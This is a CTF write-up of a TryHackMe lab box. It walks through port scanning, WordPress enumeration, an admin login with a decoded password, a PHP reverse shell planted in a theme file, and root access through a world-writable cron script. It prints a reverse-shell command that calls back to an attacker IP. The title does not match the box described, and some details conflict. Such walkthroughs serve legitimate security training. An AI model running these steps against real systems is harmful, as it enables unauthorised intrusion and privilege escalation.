# Couch CTF Writeup
**Platform:** TryHackMe \
**Difficulty:** Easy \
**Category:** Web Exploitation / Privilege Escalation

---
## Reconnaissance
### Nmap Scan
Started the box and did the Nmap Scan to check which ports all ports are open.       
```
nmap -T5 -p- allinone.thm
```
Then after finding all open ports, I ran the nmap again on open ports  with default scripts and for finding Service Detection.      
```
nmap -T5 -sV -sC -p21,22,80 allinone.thm
```      
                  

From Scan we identified 3 Ports Open:


 -  **FTP** : Port 21
 -  **SSH** : Port 22
 - **Web Server**: Port 80     
### FTP Enumeration(Port 21)
I logged into the FTP server with anonymous username, but the ftp server was not having any files and so it was not useful.                  
               


 
### Web Enumeration
So I started the web enumeration by first visting the website at Port 80. But it was the default **Apache Page**.      
#### Directory Enumeration
So to look forward I ran **Gobuster** to find any hidden Directories.
Gobuster Command:      
``` 
gobuster dir -u http://allinone.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 80 
```
After running Gobuster we find two directories **wordpress** & **hackathons**.
After visiting the directory /wordpress, it  was blog site made by using wordpress. So now we can further use **wpscan** for  enumeration of users and vulnerable plugins.
I also ran gobuster for directory enumeration on ``http://allinone.thm/wordpress/`` to see if there are any more hidden directory. I found 3 more directories **wp-content, wp-admin, wp-includes**.                    

              
                 

#### Visting /Hackathons
Heading into the **hackathons** page, it was static site with only text ``Damn how much I hate the smell of Vinegar:/ !!!``.    
This hint's us about  something related to **Vignere cipher ** which used for encryption and decryption with the help of secret key.       
I also checked the source code of the file for finding some hidden messages or comments and by luck I got some gibbersih text ``Dvc w@iyur@123`` which I think is cipher text and phrase ``KeepGoing``  is the key.
So this was pointing to something encrypting using **Vignere Cipher** .
I went to **Cyber Chef** to decrpyt it                        

     

             

After decrypting we found the a text `Try H@ckme@123`. This can be password which can further used.

#### Wordpress Enumeration                   
                         


Visting `/wordpress`  gave me a site made using wordpress which was obivious. I ran wordpress on this site to enumerate some **usernames** for login and to find some vulnerablities in **plugins**.                         
**WPScan** Command:                   
- For enumerating users: ``wpscan --url http://allinone.thm -e u``
- For enumerating vulnerable plugins: ``wpscan --url http://allinone.thm -e ap``               
After runnig these commands we found a user named **`elyana`** and found two vulnerable plugins named **`Mail Masta LFI (Local File Inclusion)`** and **`Reflex Gallery (Arbitary File Upload)`**.    

   
We can further used the username found to try login into the wordpress application.


## Exploitation
### Breaking into Wordpress Application 
In the enumeration part we found out a hidden **cipher** text which was decoded to ``Try H@ckme@123``  and also the username found using **wpscan**. So combining them to login into `wp-admin` which is the login page into the wordpress application. After using credentials ``elyana:H@ckme@123`,  we were able **successfully** to successfully login into the wordpress aplication.                    
### Gaining a Reverse Shell
I first thought going with **vulnerable plugins** which were found using wpscan but there was also a another way to get a reverse shell using uploading a **PHP Reverse Shell** into a proper directory which will accept the PHP code.             
The best location to add the PHP Reverse shell is the 404.php file in the **Theme editor** of a Theme.         
To add the Reverse shell i choose the **Twenty Nineteen** theme. I choose the **Pentest Monkey's** PHP Reverse shell and to add it we shall go to **Appearance > Theme Editor** and select 404.php to edit the file with reverse shell and save it.                    
                                 
So now to get a reverse shell we can access the file from location **`[http://allinone.thm/wordpress/wp-content/themes/twentynineteen/404.php]`**.               
                    

And hence we successfully got the reverse shell as user **www-data** which is the user with lowest privilege.                   

### Privilege Escalation & finding the Flags
I first went to the home directory of user ``elyana`` to see if I can be able to view the ``user.txt`` flag, but i was not able to view as only ``elyana`` can view the flag.           
But there was another  file ``hint.txt`` which we were able to read and also say's ``"Elyana's user password is hidden in the system. Find it ;)"``. I think this was hint for privilege escaltion to user `elyana`.       
But I also check for any binaries with **SUID Bit** set and also checked any running **CronJobs** which are some common privilege escalation methods.             
The most interesting part is that I  found a **CronJob** which is running **every minute** . 
**CronJob**: ``** ***  root /var/backups/script.sh``          
I went to check the file which was ``/var/backups/script.sh``  which was owned by **root** and had permissions set as anyone can **read, write & execute** the script. So this was the golden ticket for achieving the root access.             
So edited the script  to get a **Reverse shell** as a root user. 
I used the command:  
``echo "bash -i >& /dev/tcp/192.168.155.109/4444 0>81" > script.sh``     

                  
      
I started the **listener** on another port and waited  for a minute for poping the reverse shell which was owned by root.    
                 
Now I have got the root user account. I went onto ``/home/elyana/user.txt`` to get the user flag, but it was **base64** encoded. So decoded it & got the flag. Then I went to to get root flag at ``/root/root.txt`` and it was also **base64** encoded. So decoded the flag and completed the challenge..........

## Conclusion
This Tryhackme machine teaches us that outdated or vulnerable plugins used in CMS system can lead to **LFI** and also **Arbitary file inclusion**. Also this challenges shows that weak permissions given to file can lead to privilege escalation easily. This machine strengthens my CTF solving skills and give lots of lessons.
